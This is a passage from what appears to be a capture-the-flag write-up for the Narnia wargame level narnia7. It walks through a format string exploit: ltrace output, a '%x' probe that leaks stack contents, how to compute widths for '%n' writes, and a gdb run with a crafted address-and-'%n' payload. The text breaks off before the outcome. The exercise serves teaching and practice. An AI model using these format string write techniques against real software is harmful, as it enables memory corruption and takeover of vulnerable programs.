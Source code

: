 before : ptrf() = 0x80486e0 (0xff9f57ac)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
>```
>
> Hmmm.  Nothing seems to be affecting it.  Even inserting 1000 ```A``` didn't phase it.  Looks like I'm going to have to do some more reseach on string format vulnerabilities.
>
> Here's a great article: [Format String Exploitation-Tutorial](https://www.exploit-db.com/docs/28476.pdf)
>
> Let's try some of the stuff they are doing in there.
>
>```
# ltrace ./narnia7 $(python -c 'print "AAAA"+"%x"*10')
bash: ltrace: command not found
>```
>
> Looks like we'll have to do a quick ```apt-get install ltrace``` before we can test it out.
>
>```
# ltrace ./narnia7 $(python -c 'print "AAAA"+"%x"*10')
__libc_start_main(0x804868f, 2, 0xff942074, 0x8048740, 0x80487b0 <unfinished ...>
memset(0xff941f20, '\000', 128)                              = 0xff941f20
printf("goodfunction() = %p\n", 0x80486e0goodfunction() = 0x80486e0
)                   = 27
printf("hackedfunction() = %p\n\n", 0x8048706hackedfunction() = 0x8048706
>
)               = 30
printf("before : ptrf() = %p (%p)\n", 0x80486e0, 0xff941f1cbefore : ptrf() = 0x80486e0 (0xff941f1c)
) = 41
puts("I guess you want to come to the "...I guess you want to come to the hackedfunction...
)                  = 50
sleep(2)                                                     = 0
snprintf("AAAA8a2f77acb58f77ac86080482fd80"..., 128, "AAAA%x%x%x%x%x%x%x%x%x%x", 0x8a2, 0xf77acb58, 0xf77ac860, 0x80482fd, 0x80486e0, 0x41414141, 0x66326138, 0x63613737, 0x66383562, 0x63613737) = 77
puts("Welcome to the goodfunction, but"...Welcome to the goodfunction, but i said the Hackedfunction..
)                  = 61
fflush(0xf77884e0)                                           = 0
exit(0 <unfinished ...>
+++ exited (status 0) +++
>```
>
> Well that definately worked.  We can see our ```0x41414141``` is popped off after 6 ```%x```.  So now we can setup for the writes.  We'll need to reference each byte of the memory that we want to overwrite, each separated by any four bytes.  Here we'll use ```JUNK``` from our example as it is 4 bytes.  After that, we'll need to try to determine what the first width of the first format string will be as it will allow us to write our first value to memory.  We can determine that by first seeing what value exists currently in memory with the standard width of ```%8x```.  Once we determine that, we can determine our actual width using ```"the byte to be written" - "the outputted byte" + 8```.  After translating that value to decimal we can set the width of the 5th ```%x``` which should be the ```%x``` right before our ```%n```.  This will effectively overwrite the first byte of memory with our desired value.  Let's see if it works.
>
>```
(gdb) run $(python -c 'print "\x0c\xd6\xff\xffJUNK\x0d\xd6\xff\xffJUNK\x0e\xd6\xff\xffJUNK\x0f\xd6\xff\xff"+"%x%x%x%x%8x%n"')
Starting program: /games/narnia/narnia7 $(python -c 'print "\x0c\xd6\xff\xffJUNK\x0d\xd6\xff\xffJUNK\x0e\xd6\xff\xffJUNK\x0f\xd6\xff\xff"+"%x%x%x%x%8x%n"')